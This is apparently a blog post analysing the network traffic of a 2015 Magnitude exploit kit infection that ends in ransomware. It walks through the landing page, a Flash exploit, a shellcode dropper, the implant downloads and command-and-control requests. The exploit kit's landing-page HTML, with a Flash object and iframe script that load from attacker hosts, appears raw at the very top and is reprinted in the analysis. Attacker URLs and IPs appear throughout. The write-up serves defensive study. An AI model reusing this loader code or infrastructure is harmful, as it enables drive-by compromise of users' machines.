

<html><body><object type="application/x-shockwave-flash" allowScriptAccess="always" width="434" height="449">
<param name="movie" value="http://ubb67.3c147o.u806a4.w07d919.o5f.f1.b80w.r0faf9.e8mfzdgrf7g0.groupprograms.in/">
<param name="play" value="true"></object><script>var fhxa45 = document.createElement('if'+'rame');
fhxa45.setAttribute('src', 'http://r03afd2.c3008e.xc07r.b0f.a39.h7f0fa5eu.vb8fbl.e8mfzdgrf7g0.groupprograms.in/');
fhxa45.setAttribute('width', 434);fhxa45.setAttribute('height', 449);document.body.appendChild(fhxa45);</script>
</body></html>
Magnitude EK: Traffic Analysis (08/05/2015)
Hello and welcome! Recently I have been skilling up in malware analysis. Specifically, my focus has been centred on client-side exploit kits, such common kits include: Angler, Nuclear, Magnitude, Neutrino, RIG... There are quite a few reasons for my new found interest. First of all, as an attack simulator, it is very interesting to study the actor's operational methodology. Secondly, though on opposite sides of the line, there are some really talented people developing some of these kits. According to Microsoft's Security Intelligence Report, in 2014, it took exploit kits between 10-14 days to incorporate new CVE's to their arsenal as weaponised exploits. This alone makes it more than worth wild to dig through EK traffic as you could be in a position to extract CVE 1days, ahead of any public release.
Today we will be picking through some Magnitude traffic obtained from @malware_traffic. Keep in mind that I am still quite inexperienced when it comes to "incident response" type analysis. If you have any tips or suggestions, please leave a comment below. The following provides a list of some of the tools used for this overview.
Tools:
Wireshark - here
CapTipper - here
JSDetox - here
Snorby - here
Emerging Threats Rules - here
PCAP:
2015-05-08-traffic-analysis-exercise.pcap - here
Traffic Flow
Looking through Wireshark traffic can be a bit arduous sometimes but we can easily export a list of HTTP objects from the pcap for a more targeted search.
Personally, however, I have found CapTipper to be an excellent helper when analysing HTTP traffic. It records browser requests, server headers, response bodies, it can perform some basic analysis on payloads and extract files/web recources from the traffic stream.
Request flow:
This gives us a really nice overview of the sequence of events that took place between the attacker and the user. The other thing which will be useful for us is to list out the hosts which communicated with the user.
Hosts:

Client-Side Infection
The packet capture is basically split up into two parts, pre and post-infection traffic. As we don't have access to the entire web session there will be some details we simply can't deduce, however we will try our best to understand what is available!
Landing Page:
The very first web request (we will be referring to the CapTipper conversation list throughout this write-up) seems to be the initial landing page for the exploit kit.
CT> info 0 Info of conversation 0: SERVER IP : 62.75.195.236:80 TIME : Thu, 05/07/15 20:51:37 HOST : va872g.g90e1h.b8.642b63u.j985a2.v33e.37.pa269cc.e8mfzdgrf7g0.groupprograms.in URI : /?285a4d4e4e5a4d4d4649584c5d43064b4745 REFERER : METHOD : GET RESULT NUM : 200 OK RESULT TYPE : text/html FILE NAME : 0.html MAGIC : HyperText Markup Language (HTML) LENGTH : 560 B CT> head 0 Displaying header of object 0 (0.html): HTTP/1.1 200 OK Date: Thu, 07 May 2015 20:51:34 GMT Server: Apache/2.2.15 (CentOS) DAV/2 mod_fastcgi/2.4.6 X-Powered-By: PHP/5.3.3 Content-Length: 560 Connection: close Content-Type: text/html
It seems to me that the hostname is a bit unusual. Probably what happened is that the victim was browsing a website and clicked on a malicious add which initiated a connection to this domain. The request made by the user can be seen below (such an elaborate set of mime types hehe).
CT> req 0 Displaying request for object 0 (0.html) [583 bytes]: GET /?285a4d4e4e5a4d4d4649584c5d43064b4745 HTTP/1.1 Accept: application/x-ms-application, image/jpeg, application/xaml+xml, image/gif, image/pjpeg, application/x-ms-xbap, application/vnd.ms-excel, application/vnd.ms-powerpoint, application/msword, */* Accept-Language: en-US User-Agent: Mozilla/4.0 (compatible; MSIE 8.0; Windows NT 6.1; WOW64; Trident/4.0; SLCC2; .NET CLR 2.0.50727; .NET CLR 3.5.30729; .NET CLR 3.0.30729; Media Center PC 6.0) Accept-Encoding: gzip, deflate Host: va872g.g90e1h.b8.642b63u.j985a2.v33e.37.pa269cc.e8mfzdgrf7g0.groupprograms.in Connection: Keep-Alive
The server response body of request [0] can be seen below.
We can clean the HTML up a bit to make it more legible.
<html>
<body>
<object type="application/x-shockwave-flash" allowScriptAccess="always" width="434" height="449">
<param name="movie" value="http://ubb67.3c147o.u806a4.w07d919.o5f.f1.b80w.r0faf9.e8mfzdgrf7g0.groupprograms.in/">
<param name="play" value="true">
</object>
<script>
var fhxa45 = document.createElement('if'+'rame');
fhxa45.setAttribute('src', 'http://r03afd2.c3008e.xc07r.b0f.a39.h7f0fa5eu.vb8fbl.e8mfzdgrf7g0.groupprograms.in/');
fhxa45.setAttribute('width', 434);
fhxa45.setAttribute('height', 449);
document.body.appendChild(fhxa45);
</script>
</body>
</html>
The strange thing here is that two individual resources are being loaded by the HTML page. The shockwave object is pointing at the flash CVE which will ultimately compromise the user's browser. It is not clear what the iframe is pointing at. Perhaps, since they have the exact same width and height, the iframe is meant to overlay/hide the flash object.
Flash Exploit (CVE-2015-0311 ... Maybe):
The second web request is in fact serving up the flash CVE to the user. This request is triggered by the flash object in the HTML above.
CT> req 1 Displaying request for object 1 (1.html) [518 bytes]: GET / HTTP/1.1 Accept: */* Accept-Language: en-US Referer: http://va872g.g90e1h.b8.642b63u.j985a2.v33e.37.pa269cc.e8mfzdgrf7g0.groupprograms.in/?285a4d4e4e 5a4d4d4649584c5d43064b4745 x-flash-version: 11,8,800,94 # Outdated flash version. Accept-Encoding: gzip, deflate User-Agent: Mozilla/4.0 (compatible; MSIE 8.0; Windows NT 6.1; WOW64; Trident/4.0; SLCC2; .NET CLR 2.0.50727; .NET CLR 3.5.30729; .NET CLR 3.0.30729; Media Center PC 6.0) Host: ubb67.3c147o.u806a4.w07d919.o5f.f1.b80w.r0faf9.e8mfzdgrf7g0.groupprograms.in Connection: Keep-Alive CT> head 1 Displaying header of object 1 (1.html): HTTP/1.1 200 OK Date: Thu, 07 May 2015 20:51:34 GMT Server: Apache/2.2.15 (CentOS) DAV/2 mod_fastcgi/2.4.6 X-Powered-By: PHP/5.3.3 Content-Length: 8973 Connection: close Content-Type: application/x-shockwave-flash CT> hexdump 1 48 Displaying hexdump of object 1 (1.html) body [48 bytes]: 0000 43 57 53 0B D3 25 00 00 78 DA 85 99 77 58 13 4D CWS..%..x...wX.M # SWF magic bytes. 0010 F7 F7 13 12 08 84 0E D2 5B E8 52 43 EF BD F7 DE ........[.RC.... 0020 11 A9 A1 93 50 42 13 94 DE 41 29 0A 4A 91 22 BD ....PB...A).J.".
At this point we can easily extract the flash file for further analysis. In addition we can search for the file hash online and if we are unable to find it we can always submit the file to Virus Total / Malwr.
CT> hashes 1 Hashes of object 1 (1.html): md5 : e442dc5640e7490879034750d54ce51b sha1 : b473a7b89a432287db030a2cd614fd5463dd5e60 sha224 : 8258a05aefcb16ec8b21c8a02063cd368f55327930eb9114572c1dc1 sha256 : 81523163b298f2543d5f56a4c44ef8b07c6c9b3844b629b04fb870ca356c1437 sha384 : 88ce017cc49619a7b57322898d8d8728f84f95c2d0345c38494bc3e0a35ccd4925602c00df8cd1d23a47318881a 2969c sha512 : 37858a9cd3e9b7d3f9d4b313e4e4f6a8dcadd763c78762547658fa360827e36a84d4732c505aed2b72a38bf342f 3afdad83824f2aa0b68f65c260c4b20f8233b CT> dump 1 /root/Desktop/Magnitude/e442dc5640e7490879034750d54ce51b_CVE-2015-0311_compressed.swf Object 1 written to /root/Desktop/Magnitude/e442dc5640e7490879034750d54ce51b_CVE-2015-0311_compressed.swf
I'm making an educated guess here about the actual CVE number. I'm doing this for a few reasons: (1) The flash version reported by the browser is vulnerable to CVE-2015-0311, (2) this CVE was introduced to exploit kits in January of 2015, (3) at the time of the pcap there were no known superseding flash exploits and (4) least reliable of all, ESET actually identifies it as CVE-2015-0311.
Malwr - e442dc5640e7490879034750d54ce51b
Virus Total - e442dc5640e7490879034750d54ce51b
It is easy to get at the ActionScript source code of the exploit, for those interested in having a look at it.
root@Yoshikawa:~/ToolKit/Flasm# ./flasm -x /root/Desktop/Magnitude/e442dc5640e7490879034750d54ce51b_CVE-201 5-0311_compressed.swf /root/Desktop/Magnitude/e442dc5640e7490879034750d54ce51b_CVE-2015-0311_compressed.swf successfully decompr essed, 9683 bytes root@Yoshikawa:~/ToolKit/Flasm# md5sum /root/Desktop/Magnitude/e442dc5640e7490879034750d54ce51b_CVE-2015-03 11_compressed.swf 61ffda5f5926868a257a792d6bb4a42c /root/Desktop/Magnitude/e442dc5640e7490879034750d54ce51b_CVE-2015-0311_c ompressed.swf root@Yoshikawa:~/ToolKit/Flasm# mv /root/Desktop/Magnitude/e442dc5640e7490879034750d54ce51b_CVE-2015-0311_c ompressed.swf /root/Desktop/Magnitude/61ffda5f5926868a257a792d6bb4a42c_CVE-2015-0311_decompressed.swf
Once decompressed the flash file can be decompiled with a number of decompilers (such as JPEXS or RABCDAsm). For your convenience I have attached an archive with the decompressed swf and a folder with the decompiled data from JPEXS. The password for the archive is "infected".
CVE-2015-0311.rar - here
Post-Compromise
At this point the user is basically pwnd(!), he doesn't know it yet but there is a nasty surprise waiting for him.. If we continue traversing the communication flow we can see that the user makes a series of requests to the following IP, 62.75.195.236. This is presumably the flash exploit taking over.
# This host is serving the post-compromise implants used by this particular instance of Magnitude EK. 62.75.195.236 (62.75.195.236:80) ├-- [2] /aa25f5fe2875e3d0a244e6969e589cc4 -> text/html [861.0 B] (Magic: BINARY) [Stage 1 - Dropper] ├-- [3] /?b514ee6f0fe486009a6d83b035a4c0bd -> text/html [216.0 KB] (Magic: EXE) [Stage 2 - Implant] ├-- [4] /?b2566564b3ba1a38e61c83957a7dbcd5 -> text/html [0.0 B] ├-- [5] /?3a08b0be8322c244f5a1cb9c1057d941 -> text/html [0.0 B] ├-- [6] /?d71e0bd86db9587158745a986a4b3606 -> text/html [0.0 B] ├-- [7] /?34eaf8bd50d85d8c6baacb45f0a7b22e -> text/html [0.0 B] ├-- [8] /?60dbe33b908e0086292196ef001816bc -> text/html [0.0 B] └-- [11] /?51424ddd486ff06861fceed24e86b329 -> text/html [0.0 B]
Dropper:
If we look closely, we can see that the URL format for the first request is different than the other seven that follow (it does not start with "?"). In fact we will see that it has it's own specific purpose.
# None of the default browsers headers are present (like "User-Agent") supporting the theory that the flash exploit is making the web request not the user. CT> req 2 Displaying request for object 2 (aa25f5fe2875e3d0a244e6969e589cc4) [66 bytes]: GET /aa25f5fe2875e3d0a244e6969e589cc4 HTTP/1.1 Host: 62.75.195.236 # Supposedly the mime type here is HTML, but clearly it is not. CT> head 2 Displaying header of object 2 (aa25f5fe2875e3d0a244e6969e589cc4): HTTP/1.1 200 OK Date: Thu, 07 May 2015 20:51:36 GMT Server: Apache/2.2.15 (CentOS) DAV/2 mod_fastcgi/2.4.6 X-Powered-By: PHP/5.3.3 Content-Length: 861 Connection: close Content-Type: text/html # Looking at the first few bytes of the response body, we can't actually identify of what type the response is. CT> hexdump 2 48 Displaying hexdump of object 2 (aa25f5fe2875e3d0a244e6969e589cc4) body [48 bytes]: 0000 E8 00 00 00 00 5B 8D B3 B9 01 00 00 56 8D B3 A5 .....[......V... 0010 01 00 00 56 6A 04 68 88 4E 0D 00 E8 9D 00 00 00 ...Vj.h.N....... 0020 8D 83 CD 01 00 00 50 FF 93 B9 01 00 00 8D B3 C9 ......P.........
So, what is this mysterious response content? The answer presents itself quite easily, let's see what happens when we run strings on the extracted file.
# First we extract the response body. CT> dump 2 /root/Desktop/Magnitude/Resp_Body_2.bin Object 2 written to /root/Desktop/Magnitude/Resp_Body_2.bin root@Yoshikawa:~# strings /root/Desktop/Magnitude/Resp_Body_2.bin XxXP Y_^[ QSR1 @Z[Y urlmon.dll http://62.75.195.236/?b514ee6f0fe486009a6d83b035a4c0bd|http://62.75.195.236/?b2566564b3ba1a38e61c83957a7db cd5|http://62.75.195.236/?3a08b0be8322c244f5a1cb9c1057d941|http://62.75.195.236/?d71e0bd86db9587158745a986 a4b3606|http://62.75.195.236/?34eaf8bd50d85d8c6baacb45f0a7b22e|http://62.75.195.236/?60dbe33b908e008629219 6ef001816bc|http://62.75.195.236/?51424ddd486ff06861fceed24e86b329
Pretty humorous if you ask me, as we can see those seven URL's are exactly the subsequent requests that the user will make in the packet capture. The string "urlmon.dll" (URL Moniker) is also quite telling, it is a legitimate DLL that is used to facilitate and provide abstraction from API calls used to download files. It is more or less clear now what is going on here. After flash is exploited it downloads and interprets this binary blob as shellcode to get the actual infection process going. It is not exactly clear why this is necessary, perhaps more modularity makes it easier to deploy the exploit kit rapidly or to multiple instances with different payloads.
Implant:
As expected, the shellcode triggers the user's host to browse to each of the seven URL's in sequence and grab anything that might be hosted there.
62.75.195.236 (62.75.195.236:80)
├-- [3] /?b514ee6f0fe486009a6d83b035a4c0bd -> text/html [216.0 KB] (Magic: EXE) [Stage 2 - Implant]
├-- [4] /?b2566564b3ba1a38e61c83957a7dbcd5 -> text/html [0.0 B]
├-- [5] /?3a08b0be8322c244f5a1cb9c1057d941 -> text/html [0.0 B]
├-- [6] /?d71e0bd86db9587158745a986a4b3606 -> text/html [0.0 B]
├-- [7] /?34eaf8bd50d85d8c6baacb45f0a7b22e -> text/html [0.0 B]
├-- [8] /?60dbe33b908e0086292196ef001816bc -> text/html [0.0 B]
└-- [11] /?51424ddd486ff06861fceed24e86b329 -> text/html [0.0 B]
Again there is something peculiar going on here, though there are seven "potential" implants which can be downloaded only one is ever retrieved. The other responses all return "200 OK" but contain empty response bodies. These URL's are not used for redundancy as they are hosted on the same server. There are two probable explanations I can think of; either the server was set up to only host one payload or the server was configured to drop any requests after the first successful download.
Let's have a closer look at request [3].
# There is a common theme here, data being transmitted with a false HTML mime type. CT> head 3 Displaying header of object 3 (3.html): HTTP/1.1 200 OK Date: Thu, 07 May 2015 20:51:36 GMT Server: Apache/2.2.15 (CentOS) DAV/2 mod_fastcgi/2.4.6 X-Powered-By: PHP/5.3.3 Content-Length: 221184 Connection: close Content-Type: text/html CT> hexdump 3 116 Displaying hexdump of object 3 (3.html) body [116 bytes]: 0000 4D 5A 90 00 03 00 00 00 04 00 00 00 FF FF 00 00 MZ.............. # PE DOS header. 0010 B8 00 00 00 00 00 00 00 40 00 00 00 00 00 00 00 ........@....... 0020 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 ................ 0030 00 00 00 00 00 00 00 00 00 00 00 00 F8 00 00 00 ................ 0040 0E 1F BA 0E 00 B4 09 CD 21 B8 01 4C CD 21 54 68 ........!..L.!Th 0050 69 73 20 70 72 6F 67 72 61 6D 20 63 61 6E 6E 6F is program canno 0060 74 20 62 65 20 72 75 6E 20 69 6E 20 44 4F 53 20 t be run in DOS 0070 6D 6F 64 65 mode CT> hashes 3 Hashes of object 3 (3.html): md5 : 6cb75dd478d56910e1581afe2b87c6f7 sha1 : f44bda9a9c6b3554e920d9b49c3c9e37550c78ac sha224 : f21acb61885c06c8f7651ee96ad2110e7cdd5499d950274c4cd2b2f6 sha256 : 532f1d6b8faf6e54e3f6f9279e9720bf9f27257d2b75ce72e86ed3ca6578fafb sha384 : f27fac728edb2098b5ba9995eec992e19fd15f2d925da32252b42e869e1d4fc6348d0a6dfc2857bb2966fa455dc 15af4 sha512 : ba8c0d11e71ab55d2d3a5ce50e815cdcbd4124e6af01b8378943417216e8658f9cc563483407b2ce5e9097a37b1 75b02e9cc99995cfc551f3c0860faa72c84cb
If we search for the file hashes we find some disturbing results!
Malwr - 6cb75dd478d56910e1581afe2b87c6f7
Virus Total - 6cb75dd478d56910e1581afe2b87c6f7
Though we don't know what the file does we can see that the vast majority of antiviruses agree that it is malicious!
Show Me The Money!
As is mostly the case with exploit kits, the end goal is to extract money from the victim. This could happen through API hooking to monitor keystrokes, some kind of DNS hijacking to intercept connections to banking websites or by using some ransomware variant. Analysing the final part of the pcap will reveal the attackers endgame.
Where Am I:
At this point the actual implant starts generating web traffic. Let's have a closer look at request [9].
CT> info 9 Info of conversation 9: SERVER IP : 188.165.164.184:80 TIME : Thu, 05/07/15 20:51:42 HOST : ip-addr.es URI : /(2) REFERER : METHOD : GET RESULT NUM : 200 OK RESULT TYPE : text/plain FILE NAME : (2) MAGIC : Inconclusive. Probably text (TEXT) LENGTH : 14 B CT> req 9 Displaying request for object 9 ((2)) [226 bytes]: GET / HTTP/1.1 User-Agent: Mozilla/4.0 (compatible; MSIE 7.0; Windows NT 6.1; WOW64; Trident/4.0; SLCC2; .NET CLR 2.0.507 27; .NET CLR 3.5.30729; .NET CLR 3.0.30729; Media Center PC 6.0) Host: ip-addr.es Cache-Control: no-cache CT> body 9 Displaying body of object 9 ((2)) [14 bytes]: [redacted] # Redacted by @malware_traffic.
Seems like a curious request, however if we curl the host in question it becomes clear what the purpose is.
root@Yoshikawa:~# curl -v ip-addr.es * Rebuilt URL to: ip-addr.es/ * Hostname was NOT found in DNS cache * Trying 188.165.164.184... * Connected to ip-addr.es (188.165.164.184) port 80 (#0) > GET / HTTP/1.1 > User-Agent: curl/7.35.0 > Host: ip-addr.es > Accept: */* > < HTTP/1.1 200 OK < Date: Sat, 13 Jun 2015 13:03:07 GMT < Content-Type: text/plain;charset=UTF-8 < Transfer-Encoding: chunked < Connection: keep-alive < Vary: Accept-Encoding < Last-Modified: Sat, 13 Jun 2015 13:03:07 GMT < Cache-Control: no-store, no-cache, must-revalidate, max-age=0, post-check=0, pre-check=0 < Expires: Thu, 01 Jan 1970 00:00:00 GMT < Pragma: no-cache < X-XSS-Protection: 1 * Server DYNAMIC+ is not blacklisted < Server: DYNAMIC+ ***.***.86.154 # Partially redacted by me.
Feel free to try this for yourself, the server will return your public IP in the response body. It is assumed that the implant is trying to gather information about the compromised host.
Phone Home:
In a next phase we can see that the user communicates with two separate hosts.
# Notice the identical calls to both domains! runlove.us (204.152.254.221:80) ├-- /wp-content/themes/twentyfifteen/img5.php?t=cdcnw7cfz43rmtg [10] \ ├-- /wp-content/themes/twentyfifteen/img5.php?l=8r1gf1b2t1kuq42 [13] | -> HTTP/1.1 404 Not Found ├-- /wp-content/themes/twentyfifteen/img5.php?u=mfymi71rapdzk [15] | └-- /wp-content/themes/twentyfifteen/img5.php?f=ka6nnuvccqlw9 [17] / comarksecurity.com (72.34.49.86:80) ├-- /wp-content/themes/grizzly/img5.php?c=cdcnw7cfz43rmtg [12] \ ├-- /wp-content/themes/grizzly/img5.php?t=8r1gf1b2t1kuq42 [14] | -> HTTP/1.1 200 OK ├-- /wp-content/themes/grizzly/img5.php?u=mfymi71rapdzk [16] | └-- /wp-content/themes/grizzly/img5.php?u=ka6nnuvccqlw9 [18] /
In this case all the calls to "runlove" result in 404's. I assume that the implant was configured with two domains for redundancy which, as it turns out, was a good call in this case.
The response body for 3 of the 4 requests contain encrypted data. It is not clear how the data was obfuscated (could be AES) but I was not able to decrypt it. One thing to take note of is that the data is being passed from the attackers server to the victim so no information is being exfiltrated. Most likely, the implant is grabbing configuration settings from the attacker's server.
CT> req 12 Displaying request for object 12 (img5.php) [385 bytes]: POST /wp-content/themes/grizzly/img5.php?c=cdcnw7cfz43rmtg HTTP/1.1 Accept: */* Content-Type: application/x-www-form-urlencoded Connection: Close Content-Length: 134 User-Agent: Mozilla/4.0 (compatible; MSIE 7.0; Windows NT 6.1; WOW64; Trident/4.0; SLCC2; .NET CLR 2.0.507 27; .NET CLR 3.5.30729; .NET CLR 3.0.30729; Media Center PC 6.0) Host: comarksecurity.com Cache-Control: no-cache CT> body 12 Displaying body of object 12 (img5.php) [14 bytes]: ef6236ae8751b8 CT> req 14 Displaying request for object 14 (img5.php) [384 bytes]: POST /wp-content/themes/grizzly/img5.php?t=8r1gf1b2t1kuq42 HTTP/1.1 Accept: */* Content-Type: application/x-www-form-urlencoded Connection: Close Content-Length: 96 User-Agent: Mozilla/4.0 (compatible; MSIE 7.0; Windows NT 6.1; WOW64; Trident/4.0; SLCC2; .NET CLR 2.0.507 27; .NET CLR 3.5.30729; .NET CLR 3.0.30729; Media Center PC 6.0) Host: comarksecurity.com Cache-Control: no-cache CT> body 14 Displaying body of object 14 (img5.php) [256 bytes]: b8a679f4d471dffc634846182942756db8e6c9b7d0902345958ae475c4c038b027772743f90399fb9b26f4581ea54fd320aaa2c815 ca5d7413c59b8ec6d0560c32e51b000854a1f5848edd81e3882aa762986278325fda33ad8f4db542a7254fbde1e4db06e242890c53 e475842ebb888f088b423dc7eaacdab585bf2adb0a1a CT> req 18 Displaying request for object 18 (img5.php) [383 bytes]: POST /wp-content/themes/grizzly/img5.php?u=ka6nnuvccqlw9 HTTP/1.1 Accept: */* Content-Type: application/x-www-form-urlencoded Connection: Close Content-Length: 110 User-Agent: Mozilla/4.0 (compatible; MSIE 7.0; Windows NT 6.1; WOW64; Trident/4.0; SLCC2; .NET CLR 2.0.507 27; .NET CLR 3.5.30729; .NET CLR 3.0.30729; Media Center PC 6.0) Host: comarksecurity.com Cache-Control: no-cache CT> body 18 Displaying body of object 18 (img5.php) [14 bytes]: 25441160346ecb
This data doesn't tell us much however those are only 3 of the 4 requests. The one remaining request, [16], returns something quite interesting and pretty much tells the whole story.
CT> req 16 Displaying request for object 16 (img5.php) [383 bytes]: POST /wp-content/themes/grizzly/img5.php?u=mfymi71rapdzk HTTP/1.1 Accept: */* Content-Type: application/x-www-form-urlencoded Connection: Close Content-Length: 162 User-Agent: Mozilla/4.0 (compatible; MSIE 7.0; Windows NT 6.1; WOW64; Trident/4.0; SLCC2; .NET CLR 2.0.507 27; .NET CLR 3.5.30729; .NET CLR 3.0.30729; Media Center PC 6.0) Host: comarksecurity.com Cache-Control: no-cache CT> hexdump 16 48 Displaying hexdump of object 16 (img5.php) body [48 bytes]: 0000 89 50 4E 47 0D 0A 1A 0A 00 00 00 0D 49 48 44 52 .PNG........IHDR # PNG magic bytes. 0010 00 00 03 AF 00 00 02 CA 08 02 00 00 00 52 B4 F0 .............R.. 0020 E3 00 00 20 00 49 44 41 54 78 9C EC BD 3D 8F E3 ... .IDATx...=..
Let's have a look at the image.
CT> dump 16 /root/Desktop/Magnitude/16.png Object 16 written to /root/Desktop/Magnitude/16.png
Ouch, painful, all the user's files have apparently been encrypted. On a side note, the way this works, I believe, is that the first X bytes of all files are encrypted, if the file headers are mangled that is almost as good as encrypting the entire file and it saves out on time/processing power.
The User Investigates:
Finally, from the packet capture, we can see that victim browses the public endpoint for the TOR domain.
# Public endpoint as as specified in the image above. 7oqnsnzwwnm6zb7y.gigapaysun.com (95.163.121.204:80) ├-- /11iQmfg [19] ├-- /img/style.css [20] ├-- /img/flags/it.png [21] ├-- /picture.php?k=11iqmfg&b7f2a994c3eaaf014608b272c46cf764 [22] ├-- /img/lt.png [23] ├-- /img/flags/es.png [24] ├-- /img/flags/us.png [25] ├-- /img/flags/fr.png [26] ├-- /img/lb.png [27] ├-- /img/rt.png [28] ├-- /favicon.ico [29] ├-- /img/rb.png [30] ├-- /img/flags/de.png [31] ├-- /img/bitcoin.png [32] └-- /img/button_pay.png [33]
Let's see if we can reconstruct the page that the user visited from the traffic capture.
CT> req 19 Displaying request for object 19 (11iQmfg) [319 bytes]: GET /11iQmfg HTTP/1.1 Accept: */* Accept-Language: en-US User-Agent: Mozilla/4.0 (compatible; MSIE 8.0; Windows NT 6.1; WOW64; Trident/4.0; SLCC2; .NET CLR 2.0.507 27; .NET CLR 3.5.30729; .NET CLR 3.0.30729; Media Center PC 6.0) Accept-Encoding: gzip, deflate Host: 7oqnsnzwwnm6zb7y.gigapaysun.com Connection: Keep-Alive # Notice the gzip encoding. CT> head 19 Displaying header of object 19 (11iQmfg): HTTP/1.1 200 OK Server: nginx/1.2.1 Date: Thu, 07 May 2015 20:48:17 GMT Content-Type: text/html; charset=UTF-8 Transfer-Encoding: chunked Connection: keep-alive X-Powered-By: PHP/5.4.39-0+deb7u2 Set-Cookie: PHPSESSID=uqq1670l1pkd07vgdnsg98dee5; path=/ Expires: Thu, 19 Nov 1981 08:52:00 GMT Cache-Control: no-store, no-cache, must-revalidate, post-check=0, pre-check=0 Pragma: no-cache Vary: Accept-Encoding Content-Encoding: gzip CT> ungzip 19 GZIP Decompression of object 19 (11iQmfg) successful! New object created: 35 CT> body 35 5000 Displaying body of object 35 (ungzip-11iQmfg) [3289 bytes]: <!DOCTYPE html> <html xmlns="http://www.w3.org/1999/xhtml"> <head> <title>Decrypt service <meta http-equiv="Content-Type" content="text/html; charset=utf-8"/> <link rel="stylesheet" href="img/style.css" type="text/css"/> [...Snip...]
CapTipper actually allows us to render a version of this web page using it's built-in webserver.

Wrap Up:
The Emerging Threats ruleset is really great at detecting and reviewing malicious traffic. I have set up an analysis VM which is using snorby in conjunction with the ET rules. Looking at pcap's is as easy as pointing tcpreplay at the interface the IDS is monitoring. The screenshot below shows the alerts triggered by replaying the pcap we have been analysing.

Though it may not be apparent at a glance, expanding the various events and looking at the requests reveals pretty much the same thing as our manual analysis albeit with less depth.
Conclusion
I do feel very sorry for users infected with ransomware, unfortunately cryptography that is used to keep our data safe can also be used against us. My general advice would be to keep all your plugins up-to-date and install Adblock for your respective browsers. Putting the moral aspect of this aside for a moment, I did find it quite interesting to analyse the actor's methodology. The packet capture reveals a pretty intricate/convoluted setup, the following quote by Walter Scott comes to mind: O, what a tangled web we weave when first we practise to deceive!
If you decide to try your hand at picking through this pcap, use your brain, it contains fully functional malware. Do not encrypt your hard drive by accident!